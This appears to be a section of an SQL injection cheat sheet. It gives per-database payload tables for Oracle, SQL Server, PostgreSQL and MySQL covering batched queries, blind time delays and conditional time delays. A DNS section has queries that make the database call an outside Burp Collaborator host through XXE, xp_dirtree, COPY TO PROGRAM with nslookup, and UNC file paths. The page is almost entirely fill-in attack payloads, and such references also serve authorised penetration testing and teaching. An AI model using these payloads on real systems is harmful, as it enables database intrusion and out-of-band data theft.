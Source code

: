 Batched queries can be use to execute multiple queries in succession. While the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where it can be use a second query to trigger a DNS lookup, conditional error, or time delay.

| Database type      | Query                              |
| ------------------ |------------------------------------|
| Oracle             | Does not support batched queries.  |
| Microsoft          | ``` QUERY-1-HERE; QUERY-2-HERE ``` |
| PostgreSQL         | ``` QUERY-1-HERE; QUERY-2-HERE ``` |
| MySQL              | ``` QUERY-1-HERE; QUERY-2-HERE ``` |

## Time delays

Cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Database type      | Query                                       |
| ------------------ |---------------------------------------------|
| Oracle             | ``` dbms_pipe.receive_message(('a'),10) ``` |
| Microsoft          | ``` WAITFOR DELAY '0:0:10' ```              |
| PostgreSQL         | ``` SELECT pg_sleep(10) ```                 |
| MySQL              | ``` SELECT sleep(10) ```                    |

## Conditional time delays

It can be tested a single boolean condition and trigger a time delay if the condition is true.

| Database type      | Query                                                                                                                    |
| ------------------ |--------------------------------------------------------------------------------------------------------------------------|
| Oracle             | ``` SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual ```   |
| Microsoft          | ``` IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' ```                                                                  |
| PostgreSQL         | ``` SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END ```                                    |
| MySQL              | ``` SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') ```                                                                     |

## DNS lookup

Cause the database to perform a DNS lookup to an external domain. To do this, it is necessary use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a SND lookup occured.

| Database type      | Query                                                                                                                                 |
| ------------------ |---------------------------------------------------------------------------------------------------------------------------------------|
| Oracle             | The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: ``` SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual ```                                              |
|                    | The following technique works on fully patched Oracle installations, but requires elevated privileges: ``` SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net') ```                                                                                             |
| Microsoft          | ``` exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a' ```                                                        |
| PostgreSQL         | ``` copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net' ```                                               |
| MySQL              | The following techniques work on Windows only: ``` LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'```                                                                                                          |
